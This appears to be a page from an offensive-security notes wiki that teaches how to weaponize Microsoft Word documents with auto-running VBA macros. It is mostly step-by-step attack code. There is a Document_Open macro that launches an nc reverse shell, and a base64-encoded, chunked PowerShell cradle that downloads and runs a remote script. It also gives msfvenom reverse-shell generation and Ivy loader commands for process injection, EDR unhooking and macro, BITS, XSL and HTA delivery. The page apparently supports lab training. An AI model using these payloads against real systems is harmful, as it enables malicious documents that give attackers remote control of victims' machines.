 # VBA (Macro)

## Theory

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.

{% hint style="info" %}
VBAs/macros by themselves do not inherently bypass any detection.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Basic Usage" %}
1 - Create new word document (CTRL+N)\
2 - Hit ALT+F11 to go into Macro editor\
3 - Double click into the "This document" and CTRL+C/V the below:

```vba
'Macro
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```

```bash
#C:\tools\shell.cmd
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```

4 - ALT+F11 to switch back to the document editing mode\
5 - Save the file as a macro enabled document, for example as dotm, Word 97-2003 Document.

{% hint style="danger" %}
Using the newer **.docx**  extension, we can't embed or save the macro in the document. The macro will not be persistent.
{% endhint %}
{% endtab %}

{% tab title="ActiveX Macro" %}
We may leverage ActiveX Objects which provide access to underlying operating system commands using the following VBA template. This can be achieved with WScript through the [Windows Script Host Shell](wsh.md) object.

Fisrt, create a base64 powershell payload

```bash
$ echo -n 'iex(iwr http://192.168.45.225/rev.ps1 -UseBasicParsing)'|iconv -t 'utf-16le'|base64 -w0
aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAA...
```

Secondly, we may use this python script to split the base64-encoded string into smaller chunks (50 chars)

{% code title="chunk_vba_payload.py" %}
```python
str = "powershell.exe -nop -w hidden -e aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAA..."
n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
{% endcode %}

```bash
$ python chunk_payload.py 
```

Then, add the following macro in your word document (see [Basic Usage](vba.md#basic-usage)) using the generated payload

```vba
'Macro
Sub AutoOpen()
  MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro()
  Dim Str As String
  Str = Str + "powershell.exe -nop -w hidden -e aQBlAHgAKABpAHcAc"
  Str = Str + "gAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQA"
  Str = Str + "uADIAMgA1AC8AcgBlAHYALgBwAHMAMQAgAC0AVQBzAGUAQgBhA"
  Str = Str + "HMAaQBjAFAAYQByAHMAaQBuAGcAKQA="
  CreateObject("Wscript.Shell").Run Str
End Sub
```
{% endtab %}

{% tab title="Ivy" %}
[Ivy](https://github.com/optiv/Ivy) is a payload creation framework for the execution of arbitrary VBA (macro) source code directly in memory. Ivy’s loader does this by utilizing programmatical access in the VBA object environment to load, decrypt and execute shellcode.

First, we have to generate payload for both x86 and x64 architecture:

```bash
#x64
msfvenom -p -a x64 windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f raw > stageless64.bin

#x64
msfvenom -p -a x86 windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f raw > stageless86.bin
```

Now we can generate the malicious js file that will load our payload.

```bash
# Inject mode performs a process injection attack 
# where a new process is spawned in a suspended state and the shellcode is injected into the process
# This is for a Stagless Injected payload spawning notepad.exe
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Inject -process64 C:\\windows\\system32\\notepad.exe -process32 C:\\windows\\SysWOW64\\notepad.exe -O stageless.js 

# The stealthier option is Local. This loads the shellcode directly into the current Office process.
# It comes with additional features to avoid detection 
# This is for a Unhooked Stagless Local payload
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Local -unhook -O stageless.js

# This is for Non-Executable File Types payload
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Local -unhook -O stageless.png
```

We can execute this payload by using cscript.exe or build a loader using MSHTA.exe, Macro downloader, Stylesheet Ivy options:

```bash
# Simply execute payload on the windows target (stageless.png contains js)
cscript //E:jscript stageless.png

#Generate a Js payload and an evil macro for delivery
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Inject -unhook -O stageless.js -delivery macro -url http://ATTACKING_IP

#Generate a Js payload oneliner for BitsAdmin delivery
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.js -url http://ATTACKING_IP -delivery bits -stageless

#Gneerate a XSL payload and oneliner for Stylsheet delivery
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.xsl -url http://ATTACKING_IP -delivery xsl -stageless

#Generate a oneliner and hta payload for MSHTA.exe delivery
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.hta -url http://ATTACKING_IP -delivery hta -stageless
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}
